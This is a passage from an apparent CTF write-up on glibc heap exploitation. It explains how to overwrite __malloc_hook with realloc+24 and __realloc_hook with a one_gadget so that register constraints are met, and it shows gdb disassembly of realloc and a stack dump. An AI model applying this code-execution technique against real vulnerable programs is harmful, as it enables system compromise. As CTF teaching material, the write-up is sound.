 ![one_gadget.png](/static/images/mocsctf-2022/one_gadget.png)

We will use the first one, which has constraints is r15 and r12 is null. Because if we changed `__malloc_hook` once, it can hardly be recovered to malloc() again. So this is a one hit one kill situation.

The idea is to overwrite `__malloc_hook` with realloc() and overwrite `__realloc_hook` with one gadget. The aim is to `pop` null byte to r15 and r12. At the epilouge of realloc(), there is `pop r12` and `pop r15`. So that’s why we will jump to realloc first. This is the assembly code of realloc:

```
gef➤  disas realloc
Dump of assembler code for function __GI___libc_realloc:
   0x00007f5c371c8000 <+0>:   endbr64
   0x00007f5c371c8004 <+4>:   push   r15
   0x00007f5c371c8006 <+6>:   push   r14
   0x00007f5c371c8008 <+8>:   push   r13
   0x00007f5c371c800a <+10>:  push   r12
   0x00007f5c371c800c <+12>:  mov    r12,rsi
   0x00007f5c371c800f <+15>:  push   rbp
   0x00007f5c371c8010 <+16>:  mov    rbp,rdi
   0x00007f5c371c8013 <+19>:  push   rbx
   0x00007f5c371c8014 <+20>:  sub    rsp,0x18
   0x00007f5c371c8018 <+24>:  mov    rax,QWORD PTR [rip+0x14cfc1]        # 0x7f5c37314fe0
   0x00007f5c371c801f <+31>:  mov    rax,QWORD PTR [rax]

   0x00007f5c371c8022 <+34>:  test   rax,rax                             # Check if __realloc_hook is null or not
   0x00007f5c371c8025 <+37>:  jne    0x7f5c371c8260 <__GI___libc_realloc+608>

   ...

   0x00007f5c371c8260 <+608>: mov    rdx,QWORD PTR [rsp+0x48]
   0x00007f5c371c8265 <+613>: add    rsp,0x18
   0x00007f5c371c8269 <+617>: pop    rbx
   0x00007f5c371c826a <+618>: pop    rbp
   0x00007f5c371c826b <+619>: pop    r12
   0x00007f5c371c826d <+621>: pop    r13
   0x00007f5c371c826f <+623>: pop    r14
   0x00007f5c371c8271 <+625>: pop    r15
   0x00007f5c371c8273 <+627>: jmp    rax

```

So in our case that `__realloc_hook` is not null (we will overwrite with one gadget), it then `pop` and execute the function inside `__realloc_hook`. So if we overwrite `__malloc_hook` with `realloc + 24` (address is `0x00007f5c371c8018`), which means we don’t push any register, but we can pop all 6 value on stack in to rbx, rbp, r12, r13, r14, r15, and also the stack didn’t change, we can control it more easily. And here is the status of stack:

```
0x00007ffec709f4d0│+0x0000: "D=malloc(4096)\n"   ← $rax, $rsp, $rdi
0x00007ffec709f4d8│+0x0008: "(4096)\n"
0x00007ffec709f4e0│+0x0010: 0x0000557c12fa02a0  →  0x0000000000000000
0x00007ffec709f4e8│+0x0018: 0x0000557c12fc2020  →  0x0000000000000000
0x00007ffec709f4f0│+0x0020: 0x0000557c12fe4020  →  0x0000000000000000
0x00007ffec709f4f8│+0x0028: 0x0000557c13005010  →  0x0000000000000000
0x00007ffec709f500│+0x0030: 0x0000000000000000
0x00007ffec709f508│+0x0038: 0x0000000000000000
```
